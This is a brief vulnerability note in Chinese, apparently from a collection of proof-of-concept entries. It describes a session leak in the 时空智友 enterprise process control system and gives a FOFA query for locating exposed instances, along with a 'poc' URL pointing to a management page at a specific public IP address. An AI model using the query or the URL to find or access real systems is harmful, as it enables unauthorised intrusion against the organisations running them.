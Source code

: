 # 时空智友企业流程化管控系统session泄露

    ## fofa

```
body="企业流程化管控系统" && body="密码(Password):"
```

## poc

```
http://61.183.190.138:85/manage/index.jsp
```
